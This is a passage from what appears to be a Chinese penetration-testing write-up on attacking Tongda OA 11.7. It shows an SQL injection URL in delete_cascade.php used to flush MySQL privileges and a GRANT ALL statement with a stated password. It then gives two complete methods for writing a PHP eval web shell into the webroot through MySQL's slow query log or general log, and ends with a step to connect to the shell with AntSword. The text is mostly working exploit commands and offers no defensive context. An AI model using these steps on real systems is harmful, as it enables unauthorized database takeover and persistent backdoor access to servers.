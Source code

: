 

然后用注入点刷新权限，因为该用户是没有刷新权限的权限的

```
general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;
```

![image-20210409194101029](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210409194101029.png)



再次登录，提示密码过期，需要重新执行grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![img](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/1592114-20200918145636404-104307491.png)



然后写shell

方法一:

```
select @@basedir;
set global slow_query_log=on;
set global slow_query_log_file='C:/tongda11.7/webroot/test.php';
select '<?php eval($_POST[x]);?>' or sleep(11);
```

方法二:

```
select @@basedir;
set global general_log = on;
set global general_log_file ='C:/tongda11.7/webroot/test2.php';
select '<?php eval($_POST[test2]);?>';
show variables like '%general%';
```

最后拿蚁剑连接